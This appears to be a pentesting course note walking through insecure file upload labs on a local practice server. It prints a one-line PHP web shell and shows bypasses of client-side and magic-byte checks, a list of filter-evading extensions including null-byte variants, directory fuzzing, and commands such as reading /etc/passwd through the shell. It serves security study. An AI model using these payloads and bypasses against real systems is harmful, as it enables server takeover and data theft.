







# Web App - Insecure File Upload

> - [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
> - [Insecure file upload | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/insecure-file-upload)

➡️ **Insecure file upload** occurs when an application improperly handles user-uploaded files, allowing attackers to upload malicious files, such as scripts or executables, which can lead to remote code execution, data breaches or server compromise.

---

## Insecure file upload - Basic bypass

- Run BurpSuite and open the `http://localhost/labs/f0x01.php` challenge
- Upload a `png` file and check the request in BurpSuite. Send it to the Repeater
  - there is a script checking for valid extensions only **client side**

```javascript
<script>
function validateFileInput(input) {
    var validExtensions = ['jpg', 'png'];
    var fileName = input.files[0].name;
    var fileNameExt = fileName.substr(fileName.lastIndexOf('.') + 1);
    if (!validExtensions.includes(fileNameExt.toLowerCase())) {
        input.value = '';
        alert("Only '.jpg' and '.png' files are allowed.");
    }
}
</script>
```

```bash
# In the repear Request, remove the PNG content and change the filename to .txt
Content-Disposition: form-data; name="uploaded_file"; filename="logo-tcm.txt"
Content-Type: image/png
hello world

# Send the request
# Response
The file logo-tcm.txt has been uploaded.
```

```bash
# e.g. for command execution

# filename="cmd.php"

<?php system($_GET['cmd']); ?>
```



- To find `cmd.php` on the webserver, run `ffuf` to find the directories of the web server

```bash
ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt

assets		[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 0ms]
includes	[Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 0ms]
index.php	[Status: 200, Size: 27945, Words: 13300, Lines: 506, Duration: 11ms]
labs		[Status: 301, Size: 305, Words: 20, Lines: 10, Duration:
uploads		[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 0ms]
```

```bash
ffuf -u http://localhost/labs/FUZZ -w /usr/share/wordlists/dirb/common.txt

uploads		[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
```

- Open `http://localhost/labs/uploads/cmd.php?cmd=whoami` in the browser and check the command response
- Another one `view-source:http://localhost/labs/uploads/cmd.php?cmd=cat%20/etc/passwd`



---

## Insecure file upload - Magic bytes

- Same as before, upload a `png` file and send the request to the BurpSuite repeater
- Clean the content and set the cmd shell

```bash
# filename="logo3.php"

<?php system($_GET['cmd']); ?>

# Response:
# Only '.jpg' and '.png' files are allowed.Sorry, your file was not uploaded.
```

- The extension checks are happening **server side**
- Check the **magic bytes** of the file. Sometimes applications identify file types based on their signature bytes. Replacing them in a file can trick the app.

```bash
# e.g.
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a OR GIF8;
```

```bash
file logo3.png
	logo.png: PNG image data, 1080 x 1080, 8-bit/color RGBA, non-interlaced
head logo3.png
# Check the first line - magic bytes
```

- Insert `<?php system($_GET['cmd']); ?>` in the PNG content - Success, file uploaded
- Open `http://localhost/labs/uploads/logo3.php?cmd=whoami`
  - if it does not work, modify the content by keeping only the magic byte and the php payload





- Command executed correctly at `http://localhost/labs/uploads/cmd2.php?cmd=whoami`



- Extensions e.g.

```bash
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

---

## Insecure file upload - Challenge

- Upload `logo.png` and send request to BurpSuite repeater
- Modify the request as above and send it

```bash
# The file extension '.php' is not allowed.Sorry, your file was not uploaded.
```

> **[Checklist](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/insecure-file-upload#checklist)**
>
> - Understand the file upload functionality 
> - Are there file type restrictions? 
> - Are there file size restrictions? 
> - Are files renamed after upload? 
> - Are files checked for content type matching the extension? 
> - Test for bypassing file extension filters 
> - Upload a file with a double extension (e.g., .jpg.php) 
> - Upload a file with a null byte injection (e.g., .php%00.jpg) 
> - Test for malicious content within a file 
> - Upload a file with a simple XSS payload in its content 
> - Test for inadequate file storage handling 
> - Are uploaded files accessible from the internet? (Path/URL guessing) 
> - Can other users access the uploaded files? 

- Try with `php5` extension - Success



- Browse to `http://localhost/labs/uploads/logo.php5?cmd=whoami` - error
- Try with `phtml` extension
  - `http://localhost/labs/uploads/logo.phtml?cmd=whoami` - Success



---

